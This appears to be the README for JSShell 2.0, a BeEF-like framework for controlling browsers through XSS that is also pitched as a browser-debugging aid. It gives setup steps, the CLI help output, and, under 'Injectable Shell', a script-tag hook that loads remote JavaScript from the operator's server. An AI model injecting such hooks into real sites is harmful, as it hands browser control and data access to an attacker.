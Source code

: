 # JSShell 2.0

[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)
[![Generic badge](https://img.shields.io/badge/docker-friendly-blue.svg)](https://shields.io/)
[![Generic badge](https://img.shields.io/badge/python-3.6+-green.svg)](https://shields.io/)

An interactive multi-user web based javascript shell. It was initially created in order to debug remote 
esoteric browsers during experiments and research. This tool can be easily attached to XSS (Cross Site Scripting)
payload to achieve browser remote code execution (similar to the BeeF framework).

Version 2.0 is created entirely from scratch, introducing new exciting features, stability and maintainability.

###### Version: 2.0

## Author
[Daniel Abeles](https://twitter.com/Daniel_Abeles).

### Shell Video
[![asciicast](https://asciinema.org/a/217167.png)](https://asciinema.org/a/217167)

## Features
* Multi client support
* Cyclic DOM objects support
* Pre flight scripts
* Command Queue & Context
* Extensible with Plugins
* Injectable via `<script>` tags
* Dumping command output to file
* Shell pagination
* HTTPS support! [![Generic badge](https://img.shields.io/badge/new-green.svg)](https://shields.io/)


## Installation & Setup

### Config File
In the `resources` directory, update the `config.json` file with your desired configuration:
* Database host - if running with the `docker` deployment method, choose the database host as `db` 
(which is the internal host name).
* Return URL - the URL which the requests will follow. The `shell.js` file does some AJAX calls to register and poll
for new commands. Usually it will be `http[s]://{YOUR_SERVER_IP}:{PORT}`.
* Startup script - a script that runs automatically when the JSShell CLI client is spawned.
* Domain - if you desire to generate TLS certificates, this is the domain name the server will use.
* It is also possible to point at a remote database if desired.


### Let's Encrypt
Now JSShell supports TLS, which means you can now generate TLS certificates and feed them to the web server.
The web server will infer the domain name from the `config.json` file. In order to creare the certificate,
use the `create_cert.py` script in the `scripts` folder:

```bash
$ cd scripts
$ python create_cert.py --domain <YOUR_DOMAIN> --email <YOUR_EMAIL>
```

##### the email field is optional.

Please note that the web server must be down in order for the script to function properly. At this point, we have
successfuly generated our certificates! The sole modifications we need to do are:
* In the `config.json` file, change the schema of the `URL` field to `https`.
* In the `docker-compose.yml` file change the exposed port of the `web` container to `443`.


### Docker
This new version supports installing and running JSShell via `docker` and `docker-compose`. Now, to install and run the
entire JSShell framework, simply run:

```bash
$ ./scripts/start_docker_shell.sh
```

This will:
- Start and create the database in the background
- Start the web API server that handles incoming connections in the background
- Spawn a new instance of the `JSShell` command line interface container

### Regular
If you still want to use the old fashion method of installing, simply make sure you have a `MongoDB`
database up and running, and update the `config.json` file residing in the `resources` directory.

I recommend using a virtual environment with `pyenv`:
```bash
$ pyenv virtualenv -p python3.6 venv
$ pyenv activate venv
```

Or using `virtualenv`:

```bash 
$ virtualenv -p python3.6 venv
$ source venv/bin/activate
```

Then, install the requirements:
```bash
$ pip install -r requirements.txt
```

## Running
If you used the `docker` method, there's no need to run the following procedure.

### Web Server
Otherwise, once we have the database setup, we need to start the web API server. To do, run:
```bash
$ python manage.py web
```

This will create and run a web server that listens to incoming connections and serves our JSShell code. 

### Shell
Now to start the JSShell CLI, run the same script but now with the `shell` flag:
```bash
$ python manage.py shell
```

## Usage
After setup and running the required components, enter the `help` command to see the available commands:
```
     ╦╔═╗┌─┐┬ ┬┌─┐┬  ┬  
     ║╚═╗└─┐├─┤├┤ │  │  
    ╚╝╚═╝└─┘┴ ┴└─┘┴─┘┴─┘ 2.0     
        by @Daniel_Abeles
    
>> help

Documented commands (type help <topic>):

General Commands
--------------------------------------------------------------------------------
edit                Edit a file in a text editor
help                List available commands or provide detailed help for a specific command
history             View, run, edit, save, or clear previously entered commands
ipy                 Enter an interactive IPython shell
py                  Invoke Python command or shell
quit                Exit this application

Shell Based Operations
--------------------------------------------------------------------------------
back                Un-select the current selected client
clients             List and control the clients that have registered to our system
commands            Show the executed commands on the selected client
dump                Dumps a command to the disk
execute             Execute commands on the selected client
select              Select a client as the current client

>> 
```

## Flow
JSShell supports 2 methods of operation:
1. Injectable Shell (similar to BeeF framework)
2. Hosted Shell (for debugging)

### Injectable Shell
Similar to other XSS control frameworks (like BeeF), JSShell is capable of managing successful XSS exploitations.
In example, if you can inject a `script` tag, inject the following resource to your payload, and a new client will 
appear in your console: 

`<script src="http[s]://{YOUR_SERVER_IP}:{PORT}/content/js"></script>`

### Hosted Shell 
If you desire to debug exotic and esoteric browsers, you can simply navigate to `http[s]://{YOUR_SERVER_IP}:{PORT}/` and
a new client will pop up into your JSShell CLI client. Now it is debuggable via our JSShell console.

## Credits
[Canop](https://github.com/Canop) for [JSON.prune](https://github.com/Canop/JSON.prune/)



###### use it at your own responsibility and risk.
